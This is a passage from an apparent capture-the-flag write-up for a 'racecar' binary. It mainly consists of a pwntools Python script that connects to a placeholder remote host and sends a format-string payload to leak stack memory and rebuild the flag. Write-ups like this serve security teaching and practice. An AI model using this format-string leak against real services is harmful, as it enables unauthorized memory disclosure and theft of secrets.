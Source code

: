 <figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Automated Exploitation

This python exploit will help you remotely exploit the binary.&#x20;

Shout out to **Opcode** for helping me with this script.

`remote-exploit.py`:

```python
from pwn import *
from binascii import unhexlify

exe = ELF('./racecar', checksec=True)

def str_vuln(index):
    p = remote('IP_HERE', PORT_HERE)

    p.sendlineafter(b'Name: ', b'1337')
    p.sendlineafter(b'Nickname: ', b'1337')
    p.sendlineafter(b'Car selection\n> ', b'2')
    p.sendlineafter(b'\xef\xb8\x8f\n> ', b'2')
    p.sendlineafter(b'Circuit\n> ', b'1')

    fmtstr_leak = b'%' + str(index).encode() + b'$x'
    p.sendlineafter(b'victory?\n> \x1b[0m', fmtstr_leak)
    candidate = p.recv()
    p.close()

    return candidate

flag = b''
leak = str_vuln('12$x.%13$x.%14$x.%15$x.%16$x.%17$x.%18$x.%19$x.%20$x.%21$x.%22')

for i in leak.split(b'.'):
    if len(i) > 12:
        fragment = i.split(b'\n')[-1]
        flag += unhexlify(fragment)[::-1]
    else:
        flag += unhexlify(i.strip(b'\n'))[::-1]

print(flag)
```
